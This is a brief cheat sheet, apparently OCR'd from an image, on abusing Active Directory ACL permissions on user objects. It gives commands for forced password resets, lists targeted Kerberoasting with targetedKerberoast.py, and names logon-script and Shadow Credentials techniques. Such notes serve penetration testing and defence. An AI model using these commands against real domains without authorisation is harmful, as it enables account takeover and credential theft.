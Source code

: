 # ACLs/ACEs permissions on User

### ForceChangePassword

 - net user USER PASSWORD /domain

 - net rpc password USER PASSWORD -S DC_FQDN

### GenericAll / GenericWrite

#### 1) Change Password

 - net user USER PASSWORD /domain

#### 2) Targeted Kerberoasting (add SPN)

 - targetedKerberoast.py -d DOMAIN -u USER -p PASS (TGS Hash)

#### 3) Logon Script (Access)

#### 4) add Key Credentials (Shadow Credentials)
